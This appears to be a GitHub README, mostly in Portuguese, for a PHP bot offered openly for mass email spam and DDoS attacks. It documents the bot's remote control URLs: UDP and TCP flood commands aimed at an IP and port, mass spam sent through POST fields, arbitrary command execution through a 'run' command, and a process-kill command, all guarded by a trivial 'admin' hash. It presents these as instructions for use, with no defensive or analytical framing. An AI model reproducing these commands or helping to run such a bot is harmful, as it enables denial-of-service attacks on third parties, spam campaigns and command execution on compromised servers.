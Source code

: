# PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
        command = ddos.
        flag = Attack method: udp, tcp.
        data = IP:PORT.

        phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22

 - Spam:
 
        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

        POST data:
          maillist=...&subject=...&from=...&message=...
         
          phpBot.php?hash=admin&command=spam&flag=1&data=null

 - Run file:
   command = run.
   flag = 1 (default).
   data = Command to run
 
   phpBot.php?hash=admin&command=run&flag=1&data=dir.exe
   
 Kill dependencies:  
   command = kill.
   flag = 1 (default).
   data = null (default)
 
   phpBot.php?hash=admin&command=kill&flag=1&data=null

